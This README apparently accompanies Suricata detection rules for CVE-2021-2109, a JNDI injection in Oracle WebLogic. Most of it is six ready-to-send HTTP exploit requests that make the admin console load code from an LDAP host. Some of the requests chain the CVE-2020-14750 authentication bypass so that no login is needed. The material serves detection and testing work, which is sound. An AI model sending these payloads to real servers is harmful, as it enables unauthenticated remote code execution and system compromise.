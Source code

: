 ## Overview
CVE-2021-2109 is a JNDI injection vulnerability in Oracle Weblogic Server. It allows high privileged users, like the administrator account "weblogic", to execute arbitrary commands on the system.

Otherwise, if the server is vulnerable to CVE-2020-14750, attackers can exploit CVE-2021-2109 without authenticating.

If you cannot determine whether your Oracle Weblogic Servers are using only the default port 7001/TCP for the administration interface, you can use **any any -> any any** in the Suricata rule instead of **any any -> any 7001**.

## Proof of Concept
* GET method
```
GET /console/consolejndi.portal?_pageLabel%3DJNDIBindingPageGeneral%26_nfpb%3Dtrue%26JNDIBindingPortlethandle%3Dcom.bea.console.handles.JndiBindingHandle%28%22ldap%3A//10.10.10%3B10%3A443/exploit%3BAdminServer%22%29 HTTP/1.1
Host: example.com:7001
Cookie: ADMINCONSOLESESSION=Igk9iHRPgEo-A62PKQ3AFNK_-_erbLTMHvRAvOtmNkLYtwl3u4UD!-1638211874
Content-Length: 0
```
* POST method with the payload on the URI
```
POST /console/consolejndi.portal?_pageLabel%3DJNDIBindingPageGeneral%26_nfpb%3Dtrue%26JNDIBindingPortlethandle%3Dcom.bea.console.handles.JndiBindingHandle%28%22ldap%3A//10.10.10%3B10%3A443/exploit%3BAdminServer%22%29 HTTP/1.1
Host: example.com:7001
Cookie: ADMINCONSOLESESSION=Igk9iHRPgEo-A62PKQ3AFNK_-_erbLTMHvRAvOtmNkLYtwl3u4UD!-1638211874
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
* POST method with the payload in the body
```
POST /console/consolejndi.portal HTTP/1.1
Host: example.com:7001
Cookie: ADMINCONSOLESESSION=Igk9iHRPgEo-A62PKQ3AFNK_-_erbLTMHvRAvOtmNkLYtwl3u4UD!-1638211874
Content-Type: application/x-www-form-urlencoded
Content-Length: 157

_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle("ldap://10.10.10;10:443/exploit;AdminServer")
```
* GET method (chains with CVE-2020-14750)
```
GET /console/css/%%32e.%%32fconsolejndi.portal?_pageLabel%3DJNDIBindingPageGeneral%26_nfpb%3Dtrue%26JNDIBindingPortlethandle%3Dcom.bea.console.handles.JndiBindingHandle%28%22ldap%3A//10.10.10%3B10%3A443/exploit%3BAdminServer%22%29 HTTP/1.1
Host: example.com:7001
Content-Length: 0
```
* POST method with the payload on the URI (chains with CVE-2020-14750)
```
POST /console/css/%%32e.%%32fconsolejndi.portal?_pageLabel%3DJNDIBindingPageGeneral%26_nfpb%3Dtrue%26JNDIBindingPortlethandle%3Dcom.bea.console.handles.JndiBindingHandle%28%22ldap%3A//10.10.10%3B10%3A443/exploit%3BAdminServer%22%29 HTTP/1.1
Host: example.com:7001
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
* POST method with the payload in the body (chains with CVE-2020-14750)
```
POST /console/css/%%32e.%%32fconsolejndi.portal HTTP/1.1
Host: example.com:7001
Content-Type: application/x-www-form-urlencoded
Content-Length: 157

_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle("ldap://10.10.10;10:443/exploit;AdminServer")
```

## References
* https://www.oracle.com/security-alerts/cpujan2021.html
* https://www.exploit-db.com/exploits/49461
* https://twitter.com/pyn3rd/status/1351696768065409026
* https://twitter.com/jas502n/status/1352568441136242688
